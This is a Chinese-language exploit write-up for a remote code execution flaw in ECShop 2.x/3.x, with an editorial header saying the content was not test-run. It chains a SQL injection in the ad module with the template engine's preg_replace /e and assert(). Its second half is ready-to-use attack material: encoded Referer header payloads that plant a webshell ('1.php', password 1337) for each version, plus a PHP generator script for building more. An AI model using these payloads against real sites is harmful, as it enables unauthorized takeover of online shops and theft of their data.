## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Title&lt;=2.7.x, body2.x/3.0.x/3.6.x; Referer injection; PHP/e and assert semantics; writable destination for shell

- **事实待核（1）**：Version mismatch but useful separate2.x and3.x static hashes/payloads。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（2）**：Starts mid-analysis with screenshot; depends on companion127 SQLi root cause。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（3）**：Legacy preg_replace/e/ string assert constraints not recorded。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（4）**：Illustrations unviewed; textual chain and helper generator valuable。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# ECShop \<= 2.7.x 代码执行漏洞

一、漏洞简介
------------

二、漏洞影响
------------

ECShop（2.x、3.0.x、3.6.x）

三、复现过程
------------

### 漏洞分析



继续看fetch函数



追踪\_eval函数



\$position\_style变量来源于数据库中的查询结构



然后我们继续构造SQL注入，因为这段sql操作 order by部分换行了截断不了
所以需要在id处构造注释来配合num进行union查询



payload

    SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, p.ad_height, p.position_style, RAND() AS rnd FROM `ecshop27`.`ecs_ad` AS a LEFT JOIN `ecshop27`.`ecs_ad_position` AS p ON a.position_id = p.position_id WHERE enabled = 1 AND start_time <= '1535678679' AND end_time >= '1535678679' AND a.position_id = ''/*' ORDER BY rnd LIMIT */ union select 1,2,3,4,5,6,7,8,9,10-- -

函数中有一个判断



我们 id传入'/\*

num传入\*/ union select 1,0x272f2a,3,4,5,6,7,8,9,10-- -就能绕过了



var\_dump一下





再看fetch函数,传入的参数被fetch\_str函数处理了



追踪fetch\_str函数，这里的字符串处理流程比较复杂



    return preg_replace("/{([^\}\{\n]*)}/e", "\$this->select('\\1');", $source);

这一行意思是比如\$source是xxxx{\$asd}xxx,那么经过这行代码处理后就是返回this-\>select('\$asd')的结果

看看select函数



第一个字符为\$时进入\$this-\>get\_val函数



我们\$val没有.\$又进入make\_var函数



最后这里引入单引号从变量中逃逸



我们要闭合\_var所以最终payload是

    {$asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzEudHh0JywnZ2V0c2hlbGwnKQ=='));//}xxx

会在网站跟目录生成1.txt 里面内容是getshell



### 2.x

phpinfo():

    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:110:"*/ union select 1,0x27202f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10-- -";s:2:"id";s:4:"' /*";}554fcae493e564ee0dc75bdf2ebf94ca

webshell:

    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";}

　　会在网站根目录生成`1.php`，密码：`1337`

### 3.x

phpinfo():

    Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a

webshell:

    Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:289:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a

　　会在网站根目录生成`1.php`，密码：`1337`

### 小脚本

　　下面给出一个序列化的php脚本（第9个位置就是你想要的）：

    <?php
    $arr=array('num'=>'*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7B24617364275D3B617373657274286261736536345F6465636F646528275A6D6C735A56397764585266593239756447567564484D6F4A7A4575634768774A79776E50443977614841675A585A686243676B58314250553152624F546C644B543867506963702729293B2F2F7D787878,10-- -','id'=>'\'/*');
    echo serialize($arr);
    ?>

参考链接
--------

> https://cloud.tencent.com/developer/article/1333449
